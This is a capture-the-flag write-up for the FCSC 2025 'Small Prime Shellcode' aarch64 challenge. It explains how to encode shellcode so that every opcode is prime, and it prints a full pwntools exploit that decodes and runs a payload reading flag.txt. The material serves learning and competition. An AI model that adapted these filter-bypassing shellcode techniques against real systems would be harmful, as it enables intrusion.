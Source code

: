 +++
title = "FCSC 2025 | Small Prime Shellcode"
+++
# [Pwn] Small Prime Shellcode | FCSC 2025

* [1. Checksec](#checksecs)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)


## Checksecs
```
[*] '/home/botman/Documents/challenges/FCSC/small_prime_shellcode/small-primes-shellcode'
    Arch:       aarch64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

## TL;DR
Constraints: only prime opcodes

Solution:
- Encode shellcode to use only prime opcodes
- Generate a decoder
- Send decoder + encoded shellcode

## Writeup

For this challenge, the only constraint for our shellcode was to use **only 6 prime opcodes**.

To create this shellcode, I started by searching through the [ARM documentation](https://developer.arm.com/documentation/ddi0602/2025-03?lang=en). I found some small results, but discovered a terrible truth: with this constraint, it was **impossible** to change the value of `x8`, and since `x8` stores the [syscall number](https://arm64.syscall.sh/), it was impossible to make any syscalls this way.

> <span style="color: #82aaff;">**ⓘ NOTES**</span>
>
> Changing the value of `x8` was impossible because, in ARM, the destination register is always located at the end of the opcode. All instructions allowing a write to `x8` ended with an 8 and, therefore, weren't prime numbers.

After some tears and a little depression, I reconnected my brain and started generating a **2.7GB** file containing all possible opcodes—and finally found a solution.

![meme](/images/small-primes-shellcode/meme.jpg)

Basically, I wrote a shellcode that restores the payload during execution. To ensure only prime opcodes, I:
1. Found the next prime number for each opcode in the payload.
2. Calculated the difference between the two.
3. During execution, subtracted the difference from the prime number to recover the original payload.

I did a lot of `grep` to find what I needed. I finally selected these instructions:
```asm
adds w1, w1, #4
ldr w5, [x0, w1, uxtw]

add w5, w5, #<number>
sub w5, w5, #<number>

adds w23, w23, #25
subs w23, w23, #0
str w5, [x0, w23, uxtw]
```

What do they do?

First, I use `w1` and `w23` as counters. They allow me to load the encoded payload into `w5` using `ldr`, and then store the decoded one back with `str`. Between these two, I apply an `add` and a `sub` on the opcode prime number stored in `w5`.

You may ask why I use both `add` and `sub` instead of just `sub`. This is because of the first constraint: I can't `add` and `sub` arbitrary numbers. So I extracted all possible opcode values and wrote them into `registers.py`. With these values, I created a small function that takes a target number and a list of available `add/sub` values, and returns the operations needed.

All I had to do was put everything into an exploit and boom:


## Full exploit
```python
from pwn import *
from sympy import nextprime
import registers

CHALL = "./small-primes-shellcode"

def opps(target, add_list, sub_list):
    for add in add_list:
        sub_target = add - target
        sub_idx = sub_list.index(sub_target) if sub_target in sub_list else None
        if sub_idx:
            sub = sub_list[sub_idx]
            return [add, sub]
    return None

def encode_shellcode(shellcode):
    payload = b''
    conv_table = []
    shellcode = bytes(asm(shellcode))

    for i in range(0, len(shellcode), 4):
        opcode = int.from_bytes(shellcode[i:i+4][::-1])
        prime = nextprime(opcode)

        payload += p32(prime)
        conv_table.append(prime - opcode)

    return payload, conv_table

def gen_decoder(conv_table):
    code = ''
    for diff in conv_table:
        w5 = opps(-diff, registers.a_w5, registers.s_w5)

        code += '''
        adds w1, w1, #4
        ldr w5, [x0, w1, uxtw]

        add w5, w5, #%i
        sub w5, w5, #%i

        adds w23, w23, #25
        subs w23, w23, #21
        str w5, [x0, w23, uxtw]
        ''' % (w5[0], w5[1])

    return bytes(asm(code))

def gen_prefix(length):
    w1 = opps(length+16, registers.a_w1, registers.s_w1)
    w23 = opps(length+16, registers.a_w23, registers.s_w23)

    prefix = '''
    adds w1, w1, #%i
    subs w1, w1, #%i

    adds w23, w23, #%i
    subs w23, w23, #%i
    ''' % (w1[0], w1[1], w23[0], w23[1])

    return bytes(asm(prefix))

def exploit(io, elf):
    payload, conv_table = encode_shellcode(shellcraft.cat("flag.txt"))
    decoder = gen_decoder(conv_table)
    prefix = gen_prefix(len(decoder))

    payload = flat(
        prefix,
        decoder,
        b'\x61\x02\x00\xd4',
        payload,
    )
    io.info("full payload size: %i bytes" % len(payload))

    padding = b"\x0b\x00\x00\x00"*int((0x400-len(payload))/4)
    io.send(payload + padding)
    flag = io.recv().decode()

    return flag
```


[download here](/exploits/small-primes-shellcode.py)

**Written by *0xB0tm4n***

